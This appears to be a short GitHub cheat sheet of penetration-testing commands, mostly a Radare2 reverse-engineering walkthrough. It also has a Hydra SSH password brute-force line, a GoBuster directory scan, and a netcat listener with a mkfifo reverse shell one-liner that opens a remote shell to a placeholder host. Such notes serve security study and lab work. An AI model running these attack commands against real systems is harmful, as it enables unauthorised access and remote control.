 # Common Tools Template Commands
## Author: JamesB9
## Description:
File containing commands that to use for each tools. Change the commands to suite individual needs and use cases.

### Hydra

	hydra -l [username] -P /usr/share/wordlists/rockyou.txt [IP] -t 4 ssh

### NETCAT

	nc -lvnp [PORT]
	mkfifo /tmp/lol;nc [IP] [PORT] 0</tmp/lol | /bin/sh -i 2>&1 | tee /tmp/lol

### GoBuster

	gobuster dir -w /usr/share/wordlists/dirb/big.txt -u [URL] -x "html,php"

### Radare2
Radare2 is a framework for reverse engineering and analysing binaries. It can translate machine code into assembly which we can then read and debug.

Run Radare2 and open a binary file for use:

	r2 -d [FILE]

Analyse the program:

	aa

Once the analyses is complete, find the entry point; this is usually defined as main. Look for "sym.main" from the output of this command.

	afl

To examine the assembly code at main use pdf i.e. Print Disassembly Function.

	pdf @main

To analyse the program as it runs you can use breakpoints. Use the following command to set a command that the program should stop executing at. This will set a letter 'b' next to the address when viewing the assembly with pdf.

	db [MEMORY ADDRESS]

Once the breakpoint is set, run the program and view the assembly again.

	dc
	pdf

To view the contents at a memory address we use the following commands. The value after the @ can be found at the top of the printed assembly language. Look at the first few bytes.

	px @[MEMORY ADDRESS]

The command to run only 1 instruction (move to next instruction) is:

	ds

To view register variables, use the following command

	dr

If you make a mistake, the program can be reloaded.

	ood
